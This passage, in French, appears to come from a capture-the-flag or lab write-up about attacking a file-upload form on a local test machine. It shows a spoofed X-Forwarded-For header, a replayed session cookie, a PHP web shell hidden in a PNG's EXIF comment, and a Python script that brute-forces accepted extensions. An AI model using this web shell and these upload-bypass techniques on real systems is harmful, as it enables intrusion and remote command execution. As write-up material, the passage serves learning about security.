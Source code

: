 J'ai testé différentes extensions comme `php3`, `phps`, `phtml` ou même `xxx`. Tout était refusé. Par conséquence soit il y a une whitelist d'extensions, soit ça fonctionne par déclaration mime (`content-type`).

J'ai essayé avec un fichier valide et son extension d'origine :

```console
$ curl -D- http://192.168.56.112/adminstration/upload/ -H "X-Forwarded-For: 127.0.0.1" -H "Cookie: PHPSESSID=8gklhf94h9uidgfpb2q97uncu2;" -X POST -F "document=@/tmp/error.png" -F "submit=Send"
HTTP/1.1 200 OK
Date: Thu, 26 Jun 2025 14:14:10 GMT
Server: Apache/2.4.10 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 3032
Content-Type: text/html

file uploadad files/1750947250error.png
```

Mais si je renomme l'image en `.php`, étrangement, c'est refusé...

Bizarre. J'ai créé une image PNG valide de 1x1 pixel et apposé un shell PHP via les tags exif :

```console
$ magick -size 1x1 xc:white 1x1.png
$ exiftool -Comment='<?php system($_GET["cmd"]); ?>' 1x1.png
Warning: [minor] Text/EXIF chunk(s) found after PNG IDAT (fixed) - 1x1.png
    1 image files updated
$ mv 1x1.png 1x1.php
```

J'ai lancé l'upload avec curl et le fichier était refusé...

J'ai passé du temps à fouiller et j'ai finalement écrit un script Python qui teste les extensions valides :

```python
import sys

import requests

sess = requests.session()

with open(sys.argv[1], encoding="utf-8", errors="ignore") as fd:
    for line in fd:
        ext = line.strip()[1:]

        response = sess.post(
            f"http://192.168.56.112/adminstration/upload/",
            files={
                "document": (f"yolo.{ext}", "hellothere", "image/png"),
                "submit": "Send"
            },
            headers={
                "X-Forwarded-For": "127.0.0.1",
                "Cookie": "PHPSESSID=8gklhf94h9uidgfpb2q97uncu2;"
            }
        )
        if "file not allow" not in response.text:
            print(f"Extension {ext} seems allowed")
            print(response.text)
            exit()
```
